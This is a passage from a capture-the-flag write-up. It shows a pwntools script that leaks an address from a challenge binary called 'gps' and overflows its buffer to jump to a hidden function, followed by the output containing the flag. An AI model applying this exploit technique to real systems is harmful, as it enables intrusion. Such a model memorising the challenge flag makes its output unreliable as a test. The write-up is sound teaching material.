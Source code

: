 
9. Now constructing the exploit using pwntools, as `exploit.py`,
```python
#!/usr/bin/env python

from pwn import *

elf = ELF('./gps')
p = elf.process()

#Receive the binary's output and split the lines and characters
data = p.recv()
data1 = data.decode().split('\n')[1].split('|')
data2 = data.decode().split('\n')[7].split('|')

#Construct the address by putting the characters together in the correct order
gpsaddr = data1[1]+data2[1]+data1[3]+data2[3]+data1[5]+data2[5]+data1[7]+data2[7]
gpsaddr = int(gpsaddr,16)

#Calculate address of the function found
foundaddr = gpsaddr-127

#Build the payload
payload = b'a'*34+p32(foundaddr)

p.sendline(payload)
p.interactive()
```

10. Running the exploit on the remote link provided,
```bash
You found My Toy!
p_ctf{I_g0t_th3_b35t_t07_1n_th3_w02ld!}
```
which provides us with the flag.